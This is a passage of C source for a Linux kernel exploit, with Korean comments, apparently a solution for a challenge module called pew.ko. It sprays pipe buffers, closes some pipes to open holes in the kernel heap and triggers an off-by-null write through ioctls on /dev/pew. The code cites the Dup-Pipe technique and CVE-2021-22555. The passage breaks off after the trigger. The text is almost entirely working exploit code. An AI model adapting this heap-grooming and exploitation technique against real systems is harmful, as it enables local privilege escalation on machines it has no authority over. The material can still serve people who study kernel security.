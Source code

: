 ```c
    fprintf(stderr, "[x] Error: %s\n", msg);
    exit(EXIT_FAILURE);
}

static inline int setVal(int fd, char val) { return ioctl(fd, PEW_IOCTL_SET_VALUE, val); }
static inline int setOff(int fd, size_t off) {
  return ioctl(fd, PEW_IOCTL_SET_OFFSET, off);
}
static inline int setChar(int fd) { return ioctl(fd, PEW_IOCTL_WRITE_VALUE); }

int pipe_fd[PIPE_NUM][2];
int file_fd[FILE_NUM];

int main() {
    int fd;
    char *tmp = malloc(0x1000);
    size_t pipe_magic;

    printf("[+] Customized pew.ko exploit (Off-by-Null / Dup-Pipe attack / CVE-2021-22555)\n");

    // 1. 파이프 생성
    for (int i = 0; i < PIPE_NUM; i++) {
        if (pipe(pipe_fd[i]) < 0)
            errExit("pipe() failed");
    }

    // 2. 각 파이프의 내부 버퍼 크기를 확장 (0x1000 * 64 = 256KB)
    for (int i = 0; i < PIPE_NUM; i++) {
        if (fcntl(pipe_fd[i][1], F_SETPIPE_SZ, 0x1000 * 64) < 0)
            errExit("F_SETPIPE_SZ failed");
    }

    // 3. 파이프에 식별 데이터 삽입:
    //    - 식별 문자열 ("KEYME!!!")와 고유 magic 값 (0xdeadbeef + i)
    
    for (int i = 0; i < PIPE_NUM; i++) {
        // 0x10의 배수 인덱스는 의도적으로 비워둬 나중에 hole로 사용합니다.
        if (i % 0x10 != 0) {
            memcpy(tmp, "KEYME!!!", 0x8);
            pipe_magic = 0xdeadbeef + i;
            write(pipe_fd[i][1], tmp, 0x8);
            write(pipe_fd[i][1], &pipe_magic, 0x8);
        }
    }

    // 4. 일정 간격(0x10 단위)으로 파이프를 닫아 hole 생성
    printf("[*] Creating holes in pipes...\n");
    for (int i = 0x10; i < PIPE_NUM; i += 0x10) {
        close(pipe_fd[i][0]);
        close(pipe_fd[i][1]);
    }

    // 5. /dev/pew를 이용하여 Off-by-Null 취약점 트리거
    /* 
    * /dev/pew를 이용하여 Off-by-Null 취약점을 트리거
    * 내부 버퍼의 끝(인덱스 MAX_BUF)에 0x00을 씀
    */
    printf("[*] Triggering Off-by-Null via /dev/pew...\n");
    fd = open("/dev/pew", O_RDONLY);
    setVal(fd, 0x00);  // 0x00이든 0xc0든 상관없음. 0x?0 형태면 왠만하면 상관없을듯?
    setOff(fd, 0x1000);
    setChar(fd);

```